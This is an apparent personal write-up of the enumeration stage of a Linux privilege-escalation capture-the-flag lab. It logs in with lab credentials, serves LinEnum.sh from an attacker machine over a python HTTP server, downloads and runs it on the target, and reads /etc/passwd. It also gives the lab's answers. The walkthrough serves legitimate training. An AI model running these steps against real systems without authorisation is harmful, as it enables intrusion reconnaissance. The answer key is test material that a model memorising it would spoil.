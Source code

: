 ```yaml
---
created: 2024-02-02
last_modified_at: 2024-02-04
---
```


## Enumeration
### Questions
*First, lets SSH into the target machine, using the credentials [user3:password.](user3:password.) This is to simulate getting a foothold on the system as a normal privilege user.*

Answer: No answer needed

*What is the target's hostname?* 
To get this all you need to do is look at the terminal.
![[commonlinuxprivesc-Target-Hostname.png]]

**Answer** : polobox

*Look at the output of /etc/passwd how many "user[x]" are there on the system?*  
To do this you need to first get LinEnum.sh on the target machine. The easiest way to do this would be to first get it on your attacking machine with the command: 
`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
Then from the same folder start a python server with `python3 -m http.server 8000`

On the target box you can now download it using `wget [attacker IP]:8000/[File Name]` (Note: the file name would be LinEnum.sh in this case).
You will then have to make the file an executable using `chmod +x [File Name.sh]`

From there you can run LinEnum. You can use the `-e` switch with a folder to export the results to the provided folder. I like to do this since you only have to run the command once and get a nice output file structure.
`./LinEnum.sh -e /tmp/`

You can then get the answer using the following command:
```
cat /tmp/LinEnum-export-26-01-24/etc-export/passwd | grep ^user |wc -l
```
- piping the output to grep with `grep ^user` will return all the lines that start with user
- `wc -l` will do a line count

**Answer**: 8

*How many available shells are there on the system?*
For some reason the file that lists all of the shells on the system (/etc/shells) does not get exported with LinEnum. So for this we will just have to look through the output of LinEnum
 ![[commonlinuxprivesc-shells.png]]

**Answer**: 4

*What is the name of the bash script that is set to run every 5 minutes by cron?*
I have now given up on trying to get information from the `-e` switch. 
Before running LinEnum again I made sure to go into edit > Profile Preferences > Scrolling and enabled unlimited Scrollback and 'Scroll on output'![[commonlinuxprivsec-terminal-settings.png]]
